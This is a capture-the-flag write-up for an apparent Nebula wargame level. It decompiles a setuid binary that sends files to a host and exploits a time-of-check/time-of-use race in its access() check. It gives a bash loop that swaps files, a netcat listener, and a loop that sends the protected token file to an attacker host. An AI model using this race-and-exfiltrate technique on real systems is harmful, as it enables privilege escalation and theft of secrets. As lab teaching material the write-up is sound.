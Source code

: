 # Level10 Writeup
 
## Info
 
User `level10` has a setuid `flag10` ELF binary `level10` and a read protected file `token` owned by user `flag10`. 

`level10`
```c
int main(int argc,char **argv) {
  char *__cp; // Ghidra mess
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *pcVar6;
  int in_GS_OFFSET;
  char *file;
  char *host;
  int fd;
  int ffd;
  int rc;
  char buffer [4096];
  sockaddr_in sin;
  undefined local_1024 [4096];
  uint local_24;
  in_addr_t local_20;
  undefined4 local_1c;
  undefined4 local_18;
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc < 3) { // Wrong number of args message
    printf("%s file host\n\tsends file to host if you have access to it\n",*argv);
    exit(1);
  }
  pcVar6 = argv[1];
  __cp = argv[2];
  iVar2 = access(argv[1],4); // Check if we have acess to the file
  if (iVar2 == 0) { // We have access
    printf("Connecting to %s:6969 .. ",__cp); // Sends file to server
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_20 = 0;
    local_1c = 0;
    local_18 = 0;
    local_24 = 2;
    local_20 = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24 = local_24 & 0xffff | (uint)uVar1 << 0x10;
    iVar3 = connect(iVar2,(sockaddr *)&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp); // Error Message
      exit(1);
    }
    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp); // Error message
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file"); // File Can't be opened
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6); // Attempt to read file
      exit(1);
    }
    write(iVar2,local_1024,__n);// Write the file contents
    iVar2 = puts("wrote file!");
  }
  else { // We Don't have acess
    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) { // Buffer overflow pervention
    __stack_chk_fail();
  }
  return iVar2;
}

```

`level10` program takes 2 arguments, a file to send and a host on port 6969 to send the file too. Attempting to send `token` fails, since `level10` checks if the user executing the program has the permisions to read the file, erroring out if they don't.
 
There are 2 problems to solve, getting the data that is sent to the host and getting `level10` to read the contents of `token`.
 
## Reading contents of the file sent
 
We can start netcat listening on port 6969 like so `nc -l 6969`

## Sending the contents of `token`
 
Simply by swapping the names of a file we create and `token` very fast, we can cause a race condition. This condition is when the program sees that we have the correct permissions to read the file and the time it reads the content and sends it. If when the file is checked it checks our file and when the program reads the file it reads `token`, then we have won the race.
 
Example script to swap files:
``` bash
while [ 1 ]
do
       mv token temp
       mv file token
       mv temp file
done
```
 
## Victory
 
After winning the race, we can use the contents of `token` as a password for `flag10` and get the flag from the output of the ncat command.

Instead of spaming the command, we can use `while [ 1 ]; do ./level10 token HOSTIP; done` to automate it.
 

